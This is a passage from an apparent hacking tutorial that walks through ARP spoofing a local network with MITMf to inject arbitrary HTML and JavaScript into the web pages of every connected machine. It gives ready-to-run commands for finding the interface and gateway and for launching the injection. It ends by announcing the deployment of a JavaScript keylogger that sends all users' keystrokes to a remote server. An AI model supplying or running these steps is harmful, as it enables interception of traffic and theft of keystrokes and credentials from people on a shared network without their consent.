 Once the attacking machine is connected, you will have to run the commands we provided below to inject your arbitrary code into all the machines connected in the same network then the attacking machine.

Before to move further you will need to grab your gateway address and your network interface. You can do it simply using "**ifconfig**" and "**iproute**" commands as the following examples.

**Find my interface name**

```bash
ifconfig
```

**Output**

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/65e868eb3d3249c6b0d2995bbfcecb5c-2.png "Image-2")

As you can see in the above screenshot, in our case the interface name is "wlp2s0".

**Find my router gateway**

```bash
ip route
```

**Output**

![image-3](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/65e868eb3d3249c6b0d2995bbfcecb5c-3.png "Image-3")

From the above output, it is clear that 192.168.1.1 is the default gateway IP address.

**Inject HTML Code**

```bash
cd ~/
mkdir demo && cd demo
echo '<div>HTML code to inject</div>' > ~/demo/inject.html
cd /opt/mitmf/
sudo ./mitmf.py --inject --html-file ~/demo/inject.html --spoof --arp --gateway 192.168.1.1 -i wlp2s0
```

**Inject JS Code**

```bash
cd ~/
mkdir demo && cd demo
echo '<script type="text/javascript">alert("JS code to inject");</script>' > ~/demo/inject.js
cd /opt/mitmf/
sudo ./mitmf.py --inject --js-file ~/demo/inject.js --spoof --arp --gateway 192.168.1.1 -i wlp2s0
```

**Important:** If you have Apache and/or SMB installed, you will need to stop those services before to run MITMf to avoid any port conflict.

* * *

###### DEPLOY THE ATTACK

For our test, we will choose the second option, by injecting a Web-Based Keylogger in JavaScript which will be present on every page visited by each machine connected to the network. The keylogger will grab all the user's keystrokes and send them to a remote server. We have published a few days ago another tutorial explains how to [create a web-based keylogger in javascript](https://cybsploit.com/2019/09/02/how-to-create-a-web-based-javascript-keylogger-bHl0N2RpSDFvOTBPaEQxTUlBdDF6dz09) which can be useful if you want to understand how a keylogger works.
